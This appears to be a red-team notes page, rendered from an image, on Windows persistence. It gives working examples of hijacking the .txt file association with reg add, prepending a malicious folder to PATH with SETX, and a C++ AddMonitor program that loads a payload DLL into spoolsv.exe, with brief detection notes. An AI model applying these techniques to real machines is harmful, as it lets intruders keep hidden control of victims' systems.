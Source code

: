 ## Change default file association 

*refer: https://pentestlab.blog/2020/01/06/persistence-change-default-file-association/*

#### Example (txt,simple way):
```powershell
reg add "HKEY_CLASSES_ROOT\textfile\shell\open\command" /v (Default) /t REG_SZ /d "C:\path\to\badguy.exe"
```

*badguy.exe* executes when user opens file with **.txt** extension
#### Detection:
User can see malicious string in reg **HKCR**

</br></br>

## Path Interception
If some path is set, for example, before *c:\Windows\System32*  it means that all common programs inside *System32* first will be searched in other directories.
You can change **Path** variable to insert your "malicious" directory with programs, with names identical to programs inside *System32*. When this com	mands executes, your programs runs.

#### Example:
```powershell
SETX /M PATH "C:\badguy;%PATH%"

```
Programs ran by their names (e.g. from terminal) will be executed from *badguy* folder if they exist in it.


#### Detection:
User can see **PATH** variable

</br></br>

## Port Monitors
The Print Spooler service is responsible for managing printing jobs in OS Windows. Interaction with the service is performed through the Print Spooler API which contains a function (**AddMonitor**) that can be used to install local port monitors and connect the configuration, data and monitor files. This function has the ability to inject a DLL into the **spoolsv.exe** process and by creating a registry key red team operators can achieve persistence on the system. 

*refers:* 
* https://pentestlab.blog/2019/10/28/persistence-port-monitors/
* https://www.ired.team/offensive-security/persistence/t1013-addmonitor#execution


#### Example:
compile this cpp file, where *badguy.dll* your payload
```C++
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("badguy.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```